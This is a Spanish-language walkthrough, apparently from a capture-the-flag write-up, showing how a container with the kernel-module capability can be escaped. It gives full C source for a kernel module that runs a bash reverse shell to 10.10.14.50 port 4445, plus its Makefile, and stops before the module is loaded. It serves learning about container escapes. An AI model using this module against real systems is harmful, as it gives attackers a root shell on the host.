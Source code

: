 ![image](https://user-images.githubusercontent.com/67548295/137583540-3d4fda83-da52-4641-ab6d-298a6a14e60d.png)

Se nos dice que si esta `capability` está habilitada, podremos crear un `modulo de kernel` que ejecute una **reverse shell** para poder acceder al sistema que sostiene el contenedor.

Bien, para hacer esto es muy sencillo.

Primero, creemos un **directorio de trabajo temporal** para trabajar más cómodamente:

```bash
root@1569c10115cc:~# cd `mktemp -d`
root@1569c10115cc:/tmp/tmp.aKlQEwETu0#
```
Bien, ahora copiemos este código y creemos un archivo. Recuerda cambiar la IP:

```bash
root@1569c10115cc:/tmp/tmp.aKlQEwETu0# cat reverse.c

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("AAAAA");
MODULE_AUTHOR("AAAAAAAAAAAAAAAAAA");
MODULE_DESCRIPTION("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.50/4445 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
Vale, ahora tendremos que crear un archivo con nombre `Makefile` con el siguiente contenido:

```bash
obj-m +=reverse.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

> El carácter en blanco antes de cada palabra 'make' en el Makefile debe ser una tabulación, ¡no espacios!
